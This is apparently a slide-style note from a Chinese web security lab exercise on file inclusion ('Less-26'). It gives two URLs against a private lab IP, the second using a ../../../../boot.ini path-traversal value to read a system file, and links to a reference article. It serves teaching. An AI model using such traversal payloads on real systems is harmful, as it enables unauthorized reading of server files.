

# Less-26_文件包含漏洞
1. 打开后url： http://192.168.80.136/control/more/file_include.php?filename=../../template/dom_xss.html
2. 读取boot.ini文件  http://192.168.80.136/control/more/file_include.php?filename=../../../../boot.ini

相关知识可参考：  https://www.freebuf.com/articles/web/182280.html